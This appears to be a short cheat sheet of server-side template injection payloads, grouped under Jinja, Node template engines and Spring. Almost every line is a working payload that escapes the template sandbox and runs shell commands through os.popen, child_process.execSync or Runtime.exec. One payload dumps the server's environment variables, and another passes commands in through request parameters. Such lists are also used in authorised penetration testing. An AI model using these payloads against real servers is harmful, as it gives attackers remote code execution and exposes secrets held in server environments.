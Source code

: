 ## Jinja

- Method 1
```
{{"_".__class__.__base__.__subclasses__()[182].__init__.__globals__['sys'].modules['os'].popen("ls").read()}}
```
- Method 2 (using other parameters)
```
{% if session.update({request.args.key:self._TemplateReference__context.cycler.__init__.__globals__.os.popen(request.args.command).read()}) == 1 %}{% endif %}&command=id&key=payload
```

## Node

- Method 1
```
{{range.constructor("return global.process.mainModule.require('child_process').execSync('id')")()}}
#{7*7}
#{JSON.stringify(this.constructor.constructor('return process.env')())}
#{this.constructor.constructor('return process.mainModule.require("child_process").execSync("id", { encoding: "utf8" })')()}
{{this.constructor.constructor("return global.process.mainModule.require('child_process').execSync('id')")()}}
```

## Java

- Spring framework
    - `*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('id').getInputStream())}`
